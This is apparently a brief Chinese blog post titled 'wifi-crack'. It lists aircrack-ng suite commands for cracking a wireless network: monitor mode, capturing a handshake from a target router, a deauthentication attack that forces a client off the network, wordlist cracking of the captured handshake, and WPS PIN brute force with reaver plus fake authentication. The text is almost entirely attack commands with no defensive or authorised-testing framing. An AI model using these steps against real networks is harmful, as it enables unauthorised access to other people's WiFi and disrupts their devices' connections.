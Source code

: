 ```yaml
---
title: wifi-crack
date: 2020-06-27 07:33:06
layout:
updated:
comments:
categories:
tags:
---
```

1. 使用airmon-ng命令检查网卡是否支持监听模式

`airmon-ng`

2. 开启无线网卡的监听模式

`airmon-ng start IFACE`

3. 扫描环境中的WiFi网络

`airodump IFACE`

4. 抓取握手包

`airodump-ng -c TARGET_CHANNEL --bssid TARGET_MAC -w CAP_FILE IFACE `

```
-c 指定信道，上面已经标记目标热点的信道

-bssid指定目标路由器的BSSID，就是上面标记的BSSID

-w指定抓取的数据包保存的目录
```

5. 对无线路由器进行Deauth攻击

`aireplay-ng --deauth 1 -a TARGET_MAC -c DEVICE_MAC IFACE`

6. 进行破解WIFI密码（跑包）

`aircrack-ng -w WORDLIST CAP_FILE`





7. pin破解


wash -i IFACE

reaver --bssid TARGET_MAC --channel TARGET_CHANNEL -i IFACE -A -v --no-nack

aireplay-ng --fakeauth 100 -a TARGET_MAC -h IFACE_MAC IFACE

